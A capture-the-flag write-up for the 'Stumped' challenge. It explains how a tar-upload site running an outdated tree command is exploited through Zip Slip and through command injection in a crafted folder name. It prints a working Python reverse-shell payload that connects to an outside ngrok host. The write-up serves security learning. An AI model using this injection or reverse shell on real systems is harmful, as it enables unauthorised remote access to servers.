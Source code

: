 # PWN: Stumped
solver: [N04M1st3r](https://github.com/N04M1st3r)  
writeup-writer: [L3d](https://github.com/imL3d)  

**Description:**
> Michael's computer science project shows the structure of tar files. It is using the tree command on the backend, and something just doesn't seem right...

**files (copy):** [app.py](files/app.py)  
**screenshot:** [homepage](images/stumpedhome.png)

In this challenge we receive a site (and it's code) that runs the unix [tree](https://linux.die.net/man/1/tree) command on an uploaded tar archive. We need to exploit this site and get user access.

## Solution 🌳
When uploading a tar archive to the site to extract, we can write to anywhere on our system via carefully naming our folders. For example, if we have an archive with the path in it (the folder names are `..`): `../../../folder1/file1.txt` we can write into a folder called `folder1` that is 3 directories above us. This is due to an exploit known as [Zip Slip](https://security.snyk.io/research/zip-slip-vulnerability).  
Our first attempt of breaching this machine was to try and override some important file, in order to get and RCE or expose this machine to the internet. This was incredibly difficult since we didn't really have any information whatsoever on where this code was running from, or what with what privileges - so we abandoned the idea.  
  
After messing around a bit more with the site we noticed something about the text on it - it was powered via the `tree` command on version `1.8.0` - could it be that the version of tree is outdated and we can somehow exploit this???  
So, the search for the source code of this version began (or at least the release notes). Finding the entire source code was surprisingly difficult, but we managed to find it at the end -  [the source code](https://salsa.debian.org/debian/tree-packaging).  
  
 Looking at the changelog of the version that followed `1.8.0`:
 ```
  - -R option now recursively calls the emit_tree() function rather than using
 system() to re-call tree.  Also removes a TODO.
 ```
 BINGO! the `-R` option uses `system`, and we can exploit that to inject our OWN bash code.  
 This can be easily seen when looking at the code from the old version: 
 ```C
hcmd = xmalloc(sizeof(char) * (49 + strlen(host) + strlen(d) + strlen((*dir)->name)) + 10 + (2*strlen(path)));
sprintf(hcmd,"tree -n -H \"%s%s/%s\" -L %d -R -o \"%s/00Tree.html\" \"%s\"\n", host,d+1,(*dir)->name,Level+1,path,path);
system(hcmd);
``` 
  
In order to exploit this we need to name one of our inside folders in the archive in a special way, to include the code that we want to run on the server (we went with a python reverse shell in this case):  
```
In a tar folder, zip the following:

folder1->folder2->(injection folder)
injection folder name (the quotes are part of the name): ";python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.eu.ngrok.io",16642));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["x2fbinx2fsh","-i"]);' ;echo "
```
We we upload the tar archive with this folder we get a reverse shell, and then quickly after the flag🚩:
```
$ cat flag.txt
flag{n0t_5tump3d_4nym0r3!}
```
---
This was a creative challenge that reminded us about updating our versions and not letting strangers upload tar archives into our servers.  
Also props to  [N04M1st3r](https://github.com/N04M1st3r) for having the motivation to pull this one off ;)
  
![isitpwn.gif](images/isitpwn.gif)
